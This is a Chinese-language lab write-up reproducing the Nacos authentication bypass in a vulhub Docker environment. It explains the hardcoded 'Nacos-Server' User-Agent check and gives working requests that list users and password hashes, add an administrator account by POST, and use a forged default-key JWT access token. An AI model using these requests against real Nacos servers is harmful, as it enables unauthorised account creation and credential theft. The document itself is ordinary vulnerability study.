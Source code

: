 # Nacos权限绕过漏洞

## 简介

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为"Nacos-Server"，如果是的话则不进行任何认证

开发者原意是用来处理一些服务端对服务端的请求

但是由于配置过于简单，并且将协商好的user-agent设置为Nacos-Server直接硬编码在了代码里，导致了漏洞的出现。

利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息



## 影响版本

Nacos<=2.0.0-ALPHA.1



## 漏洞复现

本次利用vulhub复现

```
docker-compose up -d
```

![image-20250404222433394](./assets/image-20250404222433394.png)

![image-20250404222446565](./assets/image-20250404222446565.png)

环境运行后，会开放3306，8848，9848，9555端口

在本次漏洞利用中，我们只需要用到8848端口，即web服务



### 获取用户信息

访问

ip:8848/nacos/#/login

![image-20250404222641987](./assets/image-20250404222641987.png)



访问

```
http://192.168.1.3:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
```

在访问的时候抓包，将UA修改为Nacos-Server

![image-20250404222808198](./assets/image-20250404222808198.png)

得到两个用户信息

其vulhub是环境自带的，crow是我第一次复现的时候加上的

以及密码的加密值



### 添加用户

访问

```
http://192.168.1.3:8848/nacos/v1/auth/users
```

然后修改数据包

将UA改为Nacos-Server

将请求方式改为POST

并POST传递username和password的值



但是好像有一点问题

当只做上述修改时，会出现500报错

![image-20250404223310993](./assets/image-20250404223310993.png)



但是如果加上

```
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
```

![image-20250404223435286](./assets/image-20250404223435286.png)

则成功创建用户



然后可以通过上面的payload获取用户的信息

```
http://192.168.1.3:8848/nacos/v1/auth/users?pageNo=1&pageSize=2
```

User-Agent:Nacos-Server

![image-20250404223609753](./assets/image-20250404223609753.png)



此时我们可以通过新加的用户登录

![image-20250404223722282](./assets/image-20250404223722282.png)













默认Key

payload

```
{
  "sub": "nacos",
  "exp":1679318378
}
```



```
/nacos/v1/auth/users?pageNo=1&pageSize=100&search=blur&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3OTMxODM3OH0.RIYVwrgMhqTy_XmG6Ww2K9I40qAbarbfd4IQ3CD9HlM
```

